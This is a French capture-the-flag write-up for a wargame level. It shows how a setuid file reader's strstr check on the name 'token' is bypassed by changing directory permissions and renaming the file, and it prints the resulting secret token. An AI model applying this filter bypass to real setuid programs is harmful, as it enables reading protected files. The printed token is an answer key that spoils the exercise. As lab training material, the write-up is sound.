 # Level 08

Structure du home
```sh
$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```
On peut apercevoir un exécutable. Si on l'exécute il nous écrit des instructions d'utilisation pour lire un fichier, si on lui donne `token`, un message d'erreur apparaît.
```
$ ./level08
./level08 [file to read]
$ ./level08 token
You may not access 'token'
$ echo 'hi' > /tmp/toto
$ $ ./level08 /tmp/toto
hi
```
Avec `toto` le fichier se fait bien lire. Une sécurité serait en place pour le fichier `token` ?
```
$ strings ./level08
...
printf
strstr
read
open
...
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
...
```
On voit bien la fonction `strstr` qui permet de trouver une chaine de caractère dans une autre.

Et si tous simplement on renomme le fichier `token` . Mais on n'a pas la permission dans le dossier pour écrire alors qu'il est à notre nom. Alors on modifie la permission.
```
$ mv token pass
mv: cannot move `token' to `pass': Permission denied
$ chmod 755 .
$ mv token pass
$ ./level08 pass
quif5eloekouj29ke0vouxean
```